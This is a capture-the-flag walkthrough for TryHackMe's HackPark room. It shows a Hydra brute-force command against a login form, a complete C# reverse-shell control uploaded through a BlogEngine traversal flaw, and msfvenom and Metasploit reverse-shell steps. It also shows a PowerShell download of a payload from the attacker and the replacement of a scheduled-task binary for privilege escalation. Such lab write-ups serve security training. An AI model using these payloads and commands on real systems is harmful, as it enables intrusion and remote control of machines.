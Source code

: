 # HackPark Walkthrough
<br/>


## Intro
Welcome into the HackPark challenge, here is the link to the [room](https://tryhackme.com/r/room/hackpark) on TryHackMe.
Here we are gonna practice using Hydra to brute force a login, leverage a vulnerability to gain initial foothold thanks to a public exploit and finally escalate the privileges in the Windows machine.

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge
We can visit the website by navigating with our browser to `http://MACHINE_IP`, here we can see a simple page with the picture of the famous clown called REDACTED_NAME.
Looking around we can notice a login page but since we do not have any credentials we need to find another way to get access.

One way is to brute force the login using a tool like *Hydra*.

Before doing it let's intercept with Burp Suite a test submission to the login form, using `admin` as username and `test` as password, we can see that it will send a post request and return us the message `Login failed` as the password is wrong.

With this information we can now craft the Hydra command:

In our case we will use it to perform a dictionary attack only against the password field, as we can guess the username is admin; we can do it by running:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt mMACHINE_IP http-post-form "/Account/login.aspx:__VIEWSTATE=VgU7%2FWVg7M%2FeO0p9LoITKRUZBvXEG5paMfPAJoPzDF0020aXIZ45CW6XCx3lBu10xOZLc%2FSweTEQ083fWbHhnUkMzDkXMSgyEMRYDK6RzxaD8ZfaOieY7TR7o32srRFS5xqUps0EuztzgKRFE2VfF8SPCgwpPRYYCSAos5QXW2spzwIR&__EVENTVALIDATION=vqsvoJhgEEPF0rfjvrmRawXEtX9YcTEz71rYpzm079wcM7ZpO9q%2FAqvZS70wHZOmzAp8vv3NZVua3zj4LYsv0%2BLp3l%2FRQ5thC9dKQq6Ly8LNxU7tCSC4o%2Fd2ljbjK6m5JxHD%2BWUAbXE1kgYJGrPAMdeHyrpWxxM%2F9OC1panpj9UyHEm3&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 64 -vV
```

The part inside the double quotes can be copied and pasted from the request you have captured in Burp Suite, you only need to change from `Password=test` to `Password=^PASS^`

Wait for about 1 minute and you should see a green line in you terminal presenting the successful request with the password: REDACTED

### Finding the CVE and getting a Shell
Time to login in, now we can access and explore the admin panel and functionalities in search of something that can give us a foothold into the target machine.
Going to the "About" section on the left panel we can see that the BlogEngine is version REDACTED, now we can research online if this specific version has any known vulnerabilities.
We can see on ExploitDB the CVE-REDACTED which exploits a Directory Traversal vulnerability to gain RCE on the target.

In order to get the RCE we have to take a couple of steps:
1. Go to the URL: `http://MACHINE_IP/admin/app/editor/editpost.cshtml`, here choose to edit the admin comment.
2. On your machine create a file called `PostView.ascx` with this code inside:
```ascx
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.10.10.20", 1234)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```
(remember to change the IP and PORT with your own machine one)
4. Click on the icon in the editor to upload the file we have just created
5. Set up a listener on your machine with `nc -lvnp 1234`
6. Activate the exploit visiting: `http://MACHINE_IP/?theme=../../App_Data/files`

In a couple of seconds you should have a reverse shell in your terminal.

### Privilege Escalation
First thing first, let's issue the `whoami` command to see who we are logged as in this Windows system
--> REDACTED

Now to follow the task we can create an executable with *smfvenom*, upload and execute it to get a more stable reverse shell withe meterpreter:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=YOUR_IP LPORT=12345 -f exe -o myshell2.exe
```

Set up an http server:
```bash
python3 -m http.server
```

On the target machine run this command to download the file:
```bash
powershell -c wget "http://YOUR_IP/myshell2.exe" -outfile myshell2.exe
```


On your machine start Metasploit and set up the listener:
```bash
msfconsole
```
```bash
use exploit/multi/handler
```
```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

The set your OpenVPN IP and PORT you want to listen on:
```bash
set LPORT 12345
```
```bash
run
```

Now on the windows machine launch the executable:
```powershell
myshell2.exe
```

Now we can run the command `sysinfo` in the Meterpreter session 

After an analysis we can see that the WindowsScheduler service is suspicious, let's checks its logs:
```powershell
cd "c:\Program Files (x86)\SystemScheduler\Events"
```

Reading this log file (`20198415519.INI_LOG.txt`) we can understand that we will have to exploit the ==Message.exe== binary.

The idea here is to create a custom binary called Message.exe, rename the old one on the machine, wait for the Task Scheduler to run it as Admin and get an elevated session.
So let's create another `.exe` file with *msfvenom*:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=YOUR_IP LPORT=8888 -f exe -o reverse_shell.exe
```

In the Meterpreter session navigate to: `c:\Program Files (x86)\SystemScheduler` rename the old Message.exe and run:
```bash
mv Message.exe Message2.exe
```
```bash
upload reverse_shell.exe
```

Finally change the shell name:
```bash
mv reverse_shell.exe Message.exe
```

Set up another listener on port 8888 and finally wait for the shell.
Now we can finally read the 2 flags located at:
- `c:\Users\jeff\Desktop\user.txt`
- `c:\Users\Administrator\Desktop\root.txt`
  

### WinPEAS 
Another way to automate the enumeration process once you have access to a Windows machine is to use this script, which can be downloaded from GitHub [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat or if you are using Kali inside this directory `/usr/share/peass/winpeas`.
You can transfer it the way you like on the target and run it, it will output in the terminal all the results on its scan.

<br/>
<br/>

Congratulations you have successfully used Hydra to brute-force a website's login, found the CVE and used the Metasploit framework to get a reverse shell and enumerate the system to finally escalate your privilege and have access to the flags.

Catch you in the next CTF 😃 

